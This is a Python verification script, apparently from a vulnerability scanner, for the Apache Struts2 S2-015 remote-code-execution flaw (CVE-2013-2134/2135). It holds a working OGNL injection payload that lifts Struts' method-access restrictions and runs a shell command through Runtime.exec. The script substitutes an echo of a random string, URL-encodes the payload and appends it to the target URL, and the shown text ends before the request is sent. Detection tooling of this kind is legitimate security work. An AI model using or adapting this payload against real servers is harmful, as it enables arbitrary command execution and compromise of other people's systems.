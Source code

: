 ```python
#!/usr/bin/env python3

import re
import random
import string
import requests

class S2_015_2_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-015漏洞,又名CVE-2013-2134/CVE-2013-2135漏洞',
            'description': 'Struts2 S2-013漏洞可执行任意命令, 影响范围为: Struts 2.0.0 - Struts 2.3.14.2',
            'date': '2013-06-03',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/Helloworld.action'
        self.capta = self.get_capta() 
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Connection': "keep-alive",
        }
        self.payload = '''%{#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('cmd_str').getInputStream()),#q}'''
    
    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

       
        try:
            self.payload = self.payload.replace('cmd_str', 'echo' + ' ' + self.capta)
            self.payload = self.payload.encode('utf-8')
            self.payload = ''.join('%{:02X}'.format(x) for x in self.payload)
            check_url = self.url + '?message=' + self.payload
```